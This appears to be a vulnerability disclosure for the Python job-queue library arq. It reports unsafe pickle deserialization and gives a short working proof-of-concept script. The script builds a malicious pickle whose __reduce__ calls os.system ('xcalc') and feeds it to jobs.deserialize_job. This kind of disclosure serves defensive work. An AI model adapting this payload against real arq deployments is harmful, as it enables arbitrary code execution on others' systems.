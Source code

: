 # Description
arq is a fast job queuing and RPC in python with asyncio and redis. 
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install arq')
from arq import jobs
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
jobs.deserialize_job(dumps)
```
* `pip3 install arq`
* `python3 exploit.py`
